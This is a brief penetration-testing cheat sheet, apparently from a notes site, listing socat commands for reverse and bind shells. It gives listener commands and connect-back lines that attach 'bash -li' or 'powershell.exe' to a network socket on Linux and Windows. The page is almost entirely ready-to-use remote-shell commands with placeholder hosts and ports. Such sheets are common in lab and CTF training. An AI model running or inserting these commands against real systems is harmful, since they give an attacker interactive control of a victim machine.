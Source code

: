 # Socat

## Reverse Shell :

### Listening

```shell
socat TCP-L:<port> -
```

### Connect Back

{% tabs %}
{% tab title="Linux :" %}
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```
{% endtab %}

{% tab title="Windows :" %}
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
{% endtab %}
{% endtabs %}



***

## Bind Shell :&#x20;

### Listening

```shell
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

### Connect Back

{% tabs %}
{% tab title="Linux :" %}
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
```
{% endtab %}

{% tab title="Windows :" %}
```bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
{% endtab %}
{% endtabs %}

